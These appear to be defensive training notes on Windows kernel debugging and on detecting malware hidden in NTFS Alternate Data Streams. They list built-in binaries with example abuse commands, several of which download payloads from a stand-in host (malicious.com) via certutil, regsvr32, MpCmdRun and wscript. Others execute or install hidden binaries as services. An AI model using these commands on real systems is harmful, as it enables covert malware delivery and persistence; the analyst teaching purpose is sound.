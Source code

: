 CDAH 25-080 M19L2

4. Run the following command to view the IDT routine pointer value:
!idt 2e

6. Run the following command to check for any code alterations to system functions:
!chkimg -d nt

 4. Run the following command to print out values from the SSD
    choose the first one
    
dd /c1 KiServiceTable L2



7. Run the following command to find the absolute routine address of the NtCreateFile kernel routine that is called with the 0x55 syscall: 
u kiservicetable + (00febd07>>>4) L1

certutil.exe


Although typically used for handling certificates in Windows systems, the certutil tool may be employed by threat actors to download malicious files directly into an ADS. 


An example of a command using this tool is as follows:
certutil.exe -urlcache -split -f https://www.malicious.com/evilscript.ps1 c:\tempfile.doc:evil



cmd.exe


As the default command-line interpreter for Windows, cmd.exe possesses inline utilities, such as echo, that enable writing to an ADS. When combined with a tool for downloading files, this can be used for malicious executable hiding. In the example below, regsvr32.exe is used to download a malicious file and stores it in an ADS called evil.bat within tempfile.doc:  
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:www.malicious.com/RegSvr32.sct ^scrobj.dll > C:\tempfile.doc:evil.bat



control.exe


Although control.exe is normally used to launch Control Panel items, it may also be used to execute a malicious Dynamic Link Library (DLL) hiding in an ADS. 


An example of a command using this tool is as follows:
control.exe c:\tempfile.txt:evil.dll



cscript.exe


cscript.exe is the command-line version of the Windows Script Interpreter that may be used to execute Visual Basic (VB) scripts stored in an ADS.


An example of a command using this tool is as follows:
cscript c:\tempfile.txt:evil.vbs



esentutl.exe


Designed for running tasks and operations related to databases and database files, this executable can abuse the NTFS file attribute ADS. Using different techniques, threat actors can hide files in these streams to accomplish different goals, such as tool infiltration and data exfiltration.


An example of a command using this tool is as follows:
esentutl.exe /y C:\evil.exe /d c:\tempfile.txt:evil.exe /o



However, when a malicious executable hiding in an ADS is identified, it may also be used to carve out the executable for further analysis with the following command syntax:
esentutl.exe /y C:\tempfile.txt:evil.exe /d c:\evil.exe /o



extrac32.exe	


This tool is built into Windows to extract Cabinet (CAB) files. If an attacker can compress a payload into this format, then extrac32.exe may be used to extract it and hide it in an ADS in one step.


An example of a command using this tool is as follows:
extrac32 C:\evil.cab c:\tempfile.txt:evil.exe



findstr.exe	


findstr is normally used to locate string patterns in files or filenames on a system, but part of its functionality may be abused by attackers to hide malware in an ADS by intentionally searching the malicious file for a string that does not exist and writing the portion of the file in which the string is not found (i.e., all of it) to the target ADS location. The /V flag prints only lines where the string is not present, and the /L flag interprets the string literally, as opposed to a regular expression.


An example of a command using this tool is as follows:
findstr /V /L DOESNOTEXIST c:\evil.exe > c:\tempfile.txt:evil.exe



forfiles.exe


This utility is normally used to perform batch processing of a command on a file or set of files, but it may be repurposed by an attacker to execute a binary from an ADS as long as the file being searched for is valid.


An example of a command using this tool is as follows:
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\tempfile.txt:evil.exe"



MpCmdRun.exe	


This utility is normally employed as a command-line administration tool for Windows Defender, but it may be employed to download files directly into an ADS.


An example of a command using this tool is as follows:
MpCmdRun.exe -DownloadFile -url https://www.malicious.com/evil.exe -path c:\\tempfile.txt:evil.exe



mshta.exe	


This utility is built into Windows to execute Hypertext Markup Language (HTML) code and is frequently used by attackers to trigger malicious HTML Application (HTA) payloads, which may contain embedded JavaScript (JS), JScript, or Visual Basic Script (VBScript).


An example of a command using this tool is as follows:
mshta.exe "C:\tempfile.txt:evil.hta"



powershell.exe


Using the Set-Content cmdlet, data may be written directly to an ADS with the PowerShell terminal. In the following command, Set-Content is used to create an ADS called evil.ps1 within the tempfile.txt file and adds the contents of the -Value flag to that ADS.


An example of a command using this tool is as follows:
Set-Content -Path "C:\tempfile.txt" -Stream evil.ps1 -Value "Script Contents Here"



print.exe	


Although normally this binary is used by Windows to send files to a printer, it can be repurposed to hide files in an ADS. The /D flag is normally used to identify the printer to which a file is sent.


An example of a command using this tool is as follows:
print /D:C:\tempfile.txt:evil.exe C:\evil.exe



rundll32.exe	


This binary is used to execute DLL files for a variety of purposes during normal system operations. An attacker who has stored a malicious DLL in an ADS may also execute it with this utility.


An example of a command using this tool is as follows:
rundll32 "C:\tempfile.txt:evil.dll",DllMain



sc.exe	


If a Windows service-compatible executable is stored in an ADS and the user has the permissions to create new services, sc.exe may use the target in an ADS as the target for the service by entering the following commands:
sc create evilservice binPath="\"c:\\tempfile.txt:evil.exe\"" DisplayName= "evilservice" start= auto 


sc start evilservice



wmic.exe	


Used for a variety of management tasks by Windows administrators, wmic.exe may also be used by attackers to execute malicious binaries in an ADS with the following syntax:

wmic.exe process call create "c:\ads\file.txt:program.exe"



wscript.exe


This is the User Interface (UI) version of the Windows Script Interpreter that may be used to execute VB scripts stored in an ADS. Despite being considered the UI version, it can still be run from the command line without opening a window that would alert a user. Syntax within the script may also be used to download files into an ADS, which is why it is ideal for multi-staged payloads that hide in an ADS. Files are downloaded with the following script syntax:
echo GetObject("script:https://www.malicious.com/evil.vbs") > C:\tempfile.txt:evil.vbs


wscript c:\tempfile.txt:evil.vbs




4. Run the following command to list all file streams that are not the default $DATA stream:
Get-ChildItem -Recurse | % { Get-Item $_.FullName -Stream * } | Where Stream -ne ':$Data'
![image](https://github.com/user-attachments/assets/03cba1bd-8d84-498b-8d3f-6d740352af56)


Get-ChildItem -Recurse <file pah> | % { Get-Item $_.FullName -Stream * } | Where Stream -ne ':$Data'

